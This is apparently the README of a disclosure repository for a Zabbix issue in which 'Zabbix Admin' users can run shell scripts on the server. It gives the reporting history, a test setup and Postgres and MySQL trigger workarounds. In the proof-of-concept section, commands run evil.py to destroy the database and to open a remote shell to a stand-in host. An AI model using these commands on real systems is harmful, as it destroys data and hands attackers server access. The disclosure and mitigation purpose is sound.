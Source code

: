 # Zbxsec-7

This repository contains a proof-of-concept of a security issue in [Zabbix](https://zabbix.com).

Any user with the "Zabbix Admin" role is able to run custom shell script on the application server in the context of the application user. The impact of this will vary, depending on OS, Zabbix version and how/which users are granted the "Zabbix Admin" role, but the users will probably have full database access and access to other secrets stored on the application server.

The issue is a "feature" that gives the "Zabbix Admin" role the ability to create actions that use remote commands and custom script. This custom script is run on the application server.

Links:

* https://www.zabbix.com/documentation/current/manual/web_interface/frontend_sections/configuration/actions
* https://www.zabbix.com/documentation/current/manual/config/notifications/action/operation/remote_command

Short history:

* The issue was reported to security@zabbix.com on July 30th, 2019.
* It was registered as https://support.zabbix.com/browse/ZBXSEC-7 on August 23rd, 2019.
* On Desember 10th, 2020, the Zabbix team was informed that after 90 days the issue could be posted publicly.
* The registered issue has had little activity. It was closed (and resolution set as "fixed") on Jan 29th, 2021.

The issue is still present (in all common new versions?) of Zabbix.

## Zabbix test instance

A test instance of Zabbix could be created with the "zabbix-simple" git submodule. It uses [podman](https://podman.io/getting-started/) and the [container images from zabbix](https://hub.docker.com/u/zabbix).

You should clone this repository with the `--recurse-submodules` argument or use `git submodule update --init` after a simple clone.

Follow the instructions in `./zabbix-simple/README.md`.

## Proof-of-concept

If you set up an instance with "zabbix-simple" you should have installed [pyzabbix](https://pypi.org/project/pyzabbix/), a user called "User" with the role "Zabbix Admin". The password of this user is "something-secret".

Destroy database:

```
python evil.py --activate http://127.0.0.1:8080 User something-secret destroy-database
```

Remote shell connecting to myhost.example.com:8000:

```
python evil.py --activate http://127.0.0.1:8080 User something-secret remote-shell myhost.example.com 8000
```

The trigger might need a few seconds/minutes to activate.

## Workaround

The only workaround I am aware of is through database triggers that prevent you from adding custom scripts.

### Postgres

```sql
CREATE FUNCTION raise_exception() RETURNS trigger AS $$
  DECLARE
    message TEXT;
  BEGIN
    message := TG_ARGV[0];
    RAISE exception '%', message;
  END;
$$ LANGUAGE plpgsql;

CREATE TRIGGER no_custom_script
BEFORE INSERT OR UPDATE ON opcommand
FOR EACH ROW
WHEN (NEW.type = 0)
EXECUTE FUNCTION raise_exception('No custom script');
```

### MySQL

```sql
DELIMITER //
CREATE TRIGGER no_custom_script_update
  BEFORE UPDATE ON opcommand
  FOR EACH ROW
BEGIN
  IF (NEW.type = 0) THEN
    SIGNAL SQLSTATE '45000' SET MESSAGE_TEXT = 'No custom script';
  END IF;
END //
CREATE TRIGGER no_custom_script_insert
  BEFORE INSERT ON opcommand
  FOR EACH ROW
BEGIN
  IF (NEW.type = 0) THEN
    SIGNAL SQLSTATE '45000' SET MESSAGE_TEXT = 'No custom script';
  END IF;
END //
DELIMITER ;
```
